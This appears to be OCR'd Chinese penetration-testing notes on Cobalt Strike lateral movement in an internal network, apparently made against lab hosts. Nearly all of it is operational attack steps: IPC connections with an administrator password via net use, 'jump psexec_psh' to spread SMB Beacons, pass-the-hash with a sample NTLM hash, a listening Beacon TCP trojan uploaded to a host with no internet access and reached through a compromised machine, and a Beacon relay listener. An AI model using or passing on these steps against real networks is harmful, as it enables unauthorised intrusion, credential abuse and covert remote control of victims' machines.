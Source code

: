             - ```
                § 先建立一个IPC连接，然后连接：
                1. shell net use \\192.168.10.132 /u:administrator root
                2. jump psexec_psh 192.168.10.132 SMB_Beacon
                3. 取消连接  unlink 192.168.10.132
                4. 如果是域内
                1. shell net use \\192.168.10.132 /u:xie\administrator root
                2. jump psexec_psh 192.168.10.132 SMB_Beacon
                也有图形化界面
                ```

        - **利用密码哈希上线SMB Beacon****：

            - ```
                1. rev2self
                2. pth WIN2003\Administrator 329153f560eb329c0e1deea55e88a1e9
                3. jump psexec_psh 192.168.10.132 SMB_Beacon
                4. 取消连接
                unlink 192.168.10.132
                ```

- Beacon TCP：一台肉鸡，一台目标机器。

    - 我们通过msf内网横向渗透拿到权限（我们内网渗透显然也是正向连接），但是目标机器不出网，但是可以内网通信，我们现在想让其上线cs，思路是通过正向代理，通过肉鸡去正向连接靶机。

    - 生成一个监听端口的连接器，加入木马中，发送到目标机器（192.168.10.128），目标机器运行后就开启了这个端口

    - 比如监听42582端口
        - 然后生成木马，上传到靶机运行
        - 在目标机器的shell上执行netstate      -ano | findstr 42585 查询端口是否开启

    - 然后我们在另外一个内网的肉鸡（192.168.10.123）正向连接这个端口：

    - - connect 192.168.10.128

    - 1. 取消连接  unlink 192.168.10.128

- **Beacon 中继：**在肉鸡上建立一个监听器，然后让目标机器反向连接到我们的肉鸡上。

    - ![image-20220924114428991](cs.assets/image-20220924114428991.png)

- 然后攻击的时候的监听器选择我们刚刚⽤被控主机建⽴的listen即可。